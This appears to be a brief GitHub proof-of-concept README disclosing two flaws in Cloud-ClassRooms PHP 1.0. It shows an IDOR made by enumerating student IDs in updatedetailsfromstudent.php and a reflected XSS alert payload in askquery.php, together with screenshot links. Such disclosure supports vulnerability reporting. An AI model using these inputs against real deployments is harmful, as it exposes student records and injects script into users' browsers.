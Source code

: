 # Cloud-ClassRooms-PHP-1.0-Poc3


IDOR

updatedetailsfromstudent.php?eno=146891651#
updatedetailsfromstudent.php?eno=146891652#

<img width="1839" height="816" alt="image" src="https://github.com/user-attachments/assets/f6be2239-bacd-4bfc-9002-51b574cae2dc" />

<img width="1841" height="834" alt="image" src="https://github.com/user-attachments/assets/80639b42-cc71-4dec-8a40-f36dda1aa562" />


XSS

askquery.php?eid="><script>alert("Carlos%20Tuma%20-%20Bl4dsc4n")</script>askquery.php?eid="><script>alert("Carlos%20Tuma%20-%20Bl4dsc4n")</script>


<img width="1038" height="732" alt="image" src="https://github.com/user-attachments/assets/3c33a43b-084e-4768-8b60-ca1d8712e129" />

<img width="1360" height="188" alt="image" src="https://github.com/user-attachments/assets/8a8b11d7-1b1a-4580-9ff0-31ebc3bdc7a4" />

